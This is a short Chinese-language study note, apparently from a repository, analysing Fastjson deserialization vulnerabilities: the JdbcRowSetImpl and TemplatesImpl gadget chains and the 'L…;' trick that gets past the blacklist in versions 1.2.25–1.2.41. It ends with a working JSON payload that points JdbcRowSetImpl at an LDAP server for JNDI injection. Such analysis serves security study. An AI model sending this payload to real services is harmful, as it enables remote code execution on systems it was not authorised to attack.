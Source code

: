 # FastJson

# 漏洞成因与分析

## Fastjson ≤ 1.2.24

### jdbcRowSetImpl利用链

最终导致JNDI注入

**RMI+JNDI**

**LDAP+JNDI**

### TemplatesImpl利用链

由于payload需要赋值的一些属性为`private`类型，需要在`parse()` 反序列化时设置第二个参数`Feature.SupportNonPublicField` ，服务端才能从JSON中恢复`private` 类型的属性

## Fastjson高版本绕过

### 1.2.25-1.2.41绕过

1.2.25加强了对类的checkAutoType()的检查，会对要加载的类进行白名单和黑名单限制，并引入了一个配置参数AutoTypeSupport，AutoTypeSupport默认为false，即开启白名单检测

- 白名单很难绕过
- 黑名单则是如果以L开头;结尾，则去掉开头和结尾进行类加载

```java
{" 
    "\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
    "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
    "\"autoCommit\":true" 
"}
//其他利用链也同理+

```